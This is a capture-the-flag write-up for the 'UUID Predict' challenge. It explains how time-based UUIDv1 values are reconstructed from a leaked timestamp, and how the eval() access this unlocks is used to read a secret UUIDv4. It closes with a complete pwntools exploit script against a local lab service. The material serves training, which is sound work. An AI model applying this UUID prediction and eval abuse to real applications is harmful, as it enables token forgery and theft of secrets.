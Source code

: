 <img src="https://raw.githubusercontent.com/CTFae/media/main/brand/YT-banner.jpg" />

### Challenge: UUID Predict
### Category: Pwn
### Difficulty: Hard
<hr>

#### Challenge Description
This challenge will need users to explore the service, research how UUIDv1 and UUIDv4 are generated, create an exploit script to not just guess UUIDv1 but to steal UUIDv4 from the application.

#### Challenge Screenshot
![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/uuid_predict-1.png)

#### Solution
The service tells us that if the user can guess the UUIDv1, we can get a free `eval()` statement from inside the service. And if the player can guess the UUIDv4, they will capture the flag. After some research, the player should realize that UUIDv4 cannot be guessed or bruteforced since it is pure random. However, UUIDv1 is based off some static values and ***time***!

After exploring the service, the player should note that the service will tell us what timestamp the UUIDs were generated in before we guess:

![chal](https://raw.githubusercontent.com/CTFae/media/main/writeups/uuid_predict-2.png)

Knowing that UUIDv1 is based off the timestamp and some static values, using the previous UUIDs and the timestamp, the player can reconstruct the current UUIDv1 and submit it.

Upon submitting the UUIDv1, the player will get access to an extremely sandboxed `eval()`. The point of this eval is not code execution, and code execution is impossible anyways due to the sandbox. The player must list the local variables of the application by running `dir()`. After doing so, the player will notice a variable called `self.current_uuid4`. Using the eval statement, the player can get the value of this variable.

After the player steals the UUIDv4 from the service through the eval, they simply submit it and get the flag.


#### Exploit Screenshot
![exploit](https://raw.githubusercontent.com/CTFae/media/main/writeups/uuid_predict-3.png)


#### Exploit Script
```py
from pwn import *
import time_uuid
import re
import socket
import struct

# PWNTools Banner
splash()

s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER,struct.pack('ii', 1, 0))
s.connect(('127.0.0.1', 9009))
r = remote.fromsocket(s)

# Get rid of the menu
r.recvline_contains(b'5.')
r.recv()

# Read the previous UUIDs
r.send(b'3\n')
previous_uuids = r.recvline_contains("UUIDv1").decode('utf-8')
previous_uuid1 = re.match(r"\b(Previous UUIDv1: )(.*)", previous_uuids).group(2)
log.info(f"Previous UUIDv1: {previous_uuid1}")

# Get the timestamp for the UUIDv1
r.recvline_contains(b'5.')
r.recv()
r.send(b'1\n')
uuid1_timestamp = float(re.match(r"\b(.*)(generated at )(.*)( epoch!)", r.recv().decode('utf-8')).group(3))
log.info(f"Current Timestamp: {uuid1_timestamp}")

# Create the UUIDv1 using the time_uuid library
loaded_uuid1 = str(time_uuid.TimeUUID(previous_uuid1).with_timestamp(uuid1_timestamp, randomize=False))
crafted_uuid1 = loaded_uuid1.split('-')[0] + previous_uuid1[8:]
log.info(f"Generated UUIDv1: {crafted_uuid1}")

# Submit the reconstructed UUIDv1
r.send(f"{crafted_uuid1}\n".encode('utf-8'))
r.recvline_contains(b'self')
r.recv()

# Steal the UUIDv4
r.send(b"self.current_uuid4\n")
eval_response = r.recvline()
stolen_uuid4 = eval_response.decode('utf-8')
log.success(f"Stolen UUIDv4: {stolen_uuid4}")

# Submit the UUIDv4
r.recvline_contains(b'5.')
r.recv()
r.send(b"2\n")
r.recv()
r.send(f"{stolen_uuid4}\n".encode('utf-8'))
log.success(f"Grand Prize: {r.recvall().decode('utf-8')}")
```

<hr>

&copy; <a href="https://ctf.ae" target=_blank>CTF.ae</a>
